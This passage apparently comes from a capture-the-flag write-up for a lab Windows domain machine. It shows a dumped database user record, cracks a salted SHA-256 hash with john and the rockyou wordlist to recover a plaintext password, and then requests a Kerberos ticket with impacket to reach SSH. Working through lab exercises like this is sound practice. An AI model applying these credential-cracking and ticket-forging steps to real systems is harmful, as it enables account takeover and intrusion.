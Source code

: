 ```
                  privacy: NULL
                  dayType: NULL
    gibbonThemeIDPersonal: NULL
     gibboni18nIDPersonal: NULL
        studentAgreements: NULL
    googleAPIRefreshToken:
 microsoftAPIRefreshToken:
   genericAPIRefreshToken:
receiveNotificationEmails: Y
                mfaSecret: NULL
                 mfaToken: NULL
            cookieConsent: NULL
                   fields:
```

As seen, we got a username and a password hash with a salt, we can use john to crack it in the following way, first save this on a file:

```
f.frizzle:$dynamic_0$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```

Then we can use john:

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt frizzle.hash

Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Jenni_Luvs_Magic23 (f.frizzle)
1g 0:00:00:01 DONE (2025-06-16 22:32) 0.6329g/s 6975Kp/s 6975Kc/s 6975KC/s Jer125..Jeepgal1982
Use the "--show --format=dynamic=sha256($s.$p)" options to display all of the cracked passwords reliably
```

We got our credentials:

```
f.frizzle:Jenni_Luvs_Magic23
```

If we remember from the scan, `winrm` is not enabled on this machine, we need to use ssh which is actually enabled on default port `22`, let's go into ssh:

![](images/Pasted%20image%2020250616173906.png)


If we try going into ssh the normal way, we get what can be seen above, we need to set up a few things before, yes, this part was a little annoying but here's what you need to do, on this point onwards, I will use kali instead of arch as I usually do:


```
# Make sure frizzdc.frizz.htb is on your /etc/hosts file
sudo ntpdate frizzdc.frizz.htb    
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb    
export KRB5CCNAME=f.frizzle.ccache  
```
